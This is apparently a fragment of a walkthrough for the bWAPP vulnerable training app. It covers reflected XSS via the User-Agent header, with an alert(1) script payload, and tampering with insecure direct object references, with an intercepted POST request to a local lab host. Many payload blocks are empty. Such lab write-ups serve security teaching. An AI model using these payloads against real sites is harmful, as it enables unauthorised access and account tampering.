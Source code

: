 ## 💀  XSS - Reflected (User-Agent) 💀

```
User-Agent: <script>alert(1)</script>
```

# / A4 - Insecure Direct Object References /


### Security level: low

Payload: 
```
``` 
### Security level: medium

Payload: 
```
``` 
### Security level: high

Payload: 
```
``` 

## 💀  Insecure DOR (Change Secret) 💀

Use Burp to unhide hidden fields or intercept POST param.


### Security level: low

Payload: 
```
``` 
### Security level: medium

Payload: 
```
``` 
### Security level: high

Payload: 
```
``` 

## 💀  Insecure DOR (Reset Secret) 💀

Change 'login' and 'secret' field to arbitrary values.

```
POST /bWAPP/xxe-2.php HTTP/1.1
Host: bepp:8088
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:39.0) Gecko/20100101 Firefox/39.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=UTF-8
Referer: http://bepp:8088/bWAPP/insecure_direct_object_ref_3.php
Content-Length: 59
Cookie: PHPSESSID=77aa634b546d1c78d5afc16aae328172; security_level=0
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache

```